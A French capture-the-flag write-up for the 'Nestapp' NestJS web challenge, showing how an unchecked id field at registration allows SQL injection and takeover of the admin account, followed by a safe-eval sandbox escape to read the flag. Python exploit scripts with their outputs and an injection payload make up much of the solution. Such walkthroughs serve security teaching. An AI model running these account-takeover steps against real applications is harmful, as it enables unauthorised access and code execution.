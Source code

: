 ```yaml
---
layout: default
type: writeup
title: Nestapp
category: Web
point: 328
files: ["Nestapp.zip"]
---
```


{% raw %}
> **title:** Nestapp
>
> **category:** Web
>
> **difficulty:** Hardcore
>
> **point:** 328
>
> **author:** Eteck#3426
>
> **description:**
>
> In order to create an API with an auth system, a developer used NestJS. He tried to follows the doc and all the good practices on the official NestJS website, and used libraries that seems safe.
> 
> But is it enough ? Your goal is to read the flag, located in /home/flag.txt
> 

## Solution

<br>

### Installation local

On a à notre disposition le code source de l'application. Commençons par installer les packages en local.

![Résultat de la commande 'npm install'](images/install.png)

On voit que des vulnerabilités sont détectées dans certains packages, récupérons plus de détails :

![Résultat de la commande 'npm audit'](images/audit.png)

Apparement **`safeEval`** est vulnérable, et si c'est exploitable c'est un moyen d'aller récupérer `/home/flag.txt`. Regardons donc comment cette fonction est utilisée :

![Recherche de safeEval dans le code](images/search.png)

**`safeEval`** est utilisé avec le body d'un `POST /exec` mais il faut avoir le pseudo `admin` pour cela.

Sauf qu'en regardant la définition de la table `users`, on voit que le pseudo est unique donc impossible de créer un compte avec le même pseudo :

![Définition de la table 'users'](images/usersTable.png)

<br>

### Injection SQL

En se baladant un peu plus dans le code, on aperçoit une injection SQL :

![Injection SQL](images/injection.png)

Cette méthode est appelée via la requête **`GET /infos`** :

![Recherche de l'utilisation de usersService.get dans le code](images/infos.png)

<br>

### Modification de l'ID

Ainsi en modifiant notre **`id`**, il est possible de réaliser l'injection. Ca tombe bien puisque la méthode **`register`**, pour créer un compte, ne fait aucune vérification sur le body qu'elle reçoit :

![Code de la fonction register pour créer un compte](images/register.png)

Et la base de données est directement mise à jour :

![Code de la fonction save pour mettre à jour la base de données](images/repositorySave.png)

On peut donc essayer forcer la valeur de **`id`** :

![Requête avec un ID personnalisé](images/customID.png)

![Requête avec un ID personnalisé](images/customIDDecoded.png)

Ca fonctionne !

<br>

### Récupération du compte admin

La stratégie est maintenant la suivante :

1. Récupérer l'**`id`** du compte **`admin`**
2. Créer un nouveau compte avec cet **`id`** pour écraser le pseudo et le mot de passe du compte **`admin`**
3. Créer un nouveau compte **`admin`** avec notre propre mot de passe puisque le pseudo sera à disponible

Il faut tout de même noter que le champ **`id`** est prévu pour un UUID, soit **36 caractères maximum pour faire passer notre injection**.


Passons en python pour faire cela :

<br>

#### Etape 1 : récupération de l'id

```python
from requests import get, post
from uuid import uuid4

URL = "http://13.37.17.31:54246"

token = post(f"{URL}/auth/register", data={
	"pseudo": str(uuid4()).replace('-', ''), # random 32 chars username
	"password": "password",
	"id": "' OR pseudo = 'admin"
}).json()['access_token']

response = get(f"{URL}/infos", headers={
	"Authorization": f"Bearer {token}"
}).json()
print(response)
```

```text
{'username': 'admin', 'id': '52ae92d7-30c7-46df-8ee4-693056e3b21a'}
```

<br>

#### Etape 2 : écrasement du compte

```python
from requests import post
from uuid import uuid4

URL = "http://13.37.17.31:54246"
ID = '52ae92d7-30c7-46df-8ee4-693056e3b21a'

status_code = post(f"{URL}/auth/register", data={
	"pseudo": str(uuid4()).replace('-', ''), # random 32 chars username
	"password": "password",
	"id": ID
}).status_code
print(status_code)
```

```
201
```

<br>

#### Etape 3 : création du nouveau compte admin

```python
from requests import post

URL = "http://13.37.17.31:54246"

token = post(f"{URL}/auth/register", data={
	"pseudo": "admin",
	"password": "password"
}).json()['access_token']
print(token)
```

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwc2V1ZG8iOiJhZG1pbiIsInN1YiI6ImUxOWRiNDUwLTU1NWEtNGM1ZC05YjZjLTBmMDljMzhkMzYxYSIsImlhdCI6MTY4MzcxNzMwNywiZXhwIjoxNjgzNzI0NTA3fQ.dZxjtCGKItMTM8u5nt-a93s5dG4ZqwLRODmSYNMdZDs
```

<br>

Et voilà, nous avons bien un token avec le pseudo 'admin' :

![Token du compte 'admin'](images/admin_token.png)

<br>

### Bypass safeEval et RCE

En cherchant les références données par npm, on tombe sur des payloads déjà prêts. Ici j'utilise **[celui-ci](https://github.com/hacksparrow/safe-eval/issues/27)** que j'ai un peu adapté :

![RCE et obtention du flag'](images/flag.png)

**`FLAG : PWNME{g0D_jOB!_S4Fe-ev41_w4S_N0t_WeRY_2Af3}`**

{% endraw %}
